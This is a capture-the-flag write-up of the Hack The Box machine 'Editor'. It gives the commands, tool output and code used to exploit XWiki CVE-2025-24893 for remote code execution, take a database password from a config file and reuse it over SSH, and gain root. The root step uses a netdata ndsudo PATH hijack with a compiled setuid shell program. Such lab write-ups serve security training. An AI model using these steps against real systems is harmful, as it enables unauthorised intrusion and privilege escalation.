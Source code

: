 ```yaml
---
title: Editor - HTB
date: 2025-08-07 4:00:00 +0200
categories: [Hack The Box, Linux0]
tags: [ Linux]
toc: true
comments: true
image: ./assets/img/attachments/editor.png
imageNameKey: editor
---
```

Hey, this machine is an easy Linux machine from HTB, lets see how we will root it
## Port Enumeration
First, we should know what we have and what we are dealing with
```bash
sudo nmap -sS -p- -A 10.10.11.80 

Nmap scan report for 10.10.11.80
Host is up (0.36s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
|_http-server-header: Jetty(10.0.20)
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|   Server Type: Jetty(10.0.20)
|_  WebDAV type: Unknown
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

lets check web page on port 80
![w](/assets/img/attachments/editor-1.png)
When i click on `Docs` the page directs me to a subdomain `wiki.editor.htb` which runs on port 8080  (you must add this one to /etc/hosts)
![w](/assets/img/attachments/editor-2.png)
And we have an exploit for this version
lets test them
[The link of the exploit I used](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py)
XWiki Platform suffers from a critical vulnerability where any guest user can execute arbitrary code remotely through the SolrSearch endpoint. This can lead to a full server compromise, including the ability to execute commands on the underlying system.
Targeted path: `/bin/get/Main/SolrSearch`
But note that this subdomain uses /xwiki/bin
```bash
python3 exploit.py

[?] Enter the target URL (without http/https): wiki.editor.htb/xwiki
```
![w](/assets/img/attachments/editor-3.png)
And it retrieved the content of /etc/passwd
## Initial Access
Now, will modify the exploit to get a reverse shell
It didn't get a shell but successfully executed internal commands, s i switched to this [exploit](https://github.com/gunzf0x/CVE-2025-24893)
![w](/assets/img/attachments/editor-4.png)
![w](/assets/img/attachments/editor-5.png)
Spawn a TTY shell from an interpreter
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
Then after some enumeration i found this file `/etc/xwiki/hibernate.cfg.xml`
![w](/assets/img/attachments/editor-6.png)
will test this password for oliver user
The `su` command didn’t work, but the password was valid for SSH login.
![w](/assets/img/attachments/editor-7.png)
## Root 
Find command to list SUID files owned by root.
```bash
find / -user root -perm -4000 -type f 2>/dev/null
```
```bash
ls -l /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
file /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo

-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped

oliver@editor:~$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)

```
cool we can execute this tool
![w](/assets/img/attachments/editor-8.png)
But couldn't see how i can escalate from here.
Lets checks running services
```bash
ss -tulnp
```
![w](/assets/img/attachments/editor-9.png)
I forwarded port 19999 to see what does it host
```bash
ssh oliver@10.10.11.80 -L 19999:127.0.0.1:19999
```
![w](/assets/img/attachments/editor-10.png)
It's running netdata service (the same provided ndsudo), and from the redline we can get this service version 1.45.2
![w](/assets/img/attachments/editor-11.png)
[Exploit](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)
1- create an executable 
```c
#include <unistd.h>
#include <stdlib.h>

int main() {
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    char *args[] = {"/bin/bash", "-i", NULL};
    execve("/bin/bash", args, NULL);
    return 0;
}

```
Then compile it 
```
gcc exploit.c -o nvme
```
We need to send it to victim machine
```
python -m http.server
```
at victim machine we use curl or wget
Then make it executable
```bash
chmod +x nvme

export PATH=/home/oliver:$PATH
```
Trigger the vulnerable tool ndsudo
```bash
opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```
![w](/assets/img/attachments/editor-12.png)
And ROOTED!
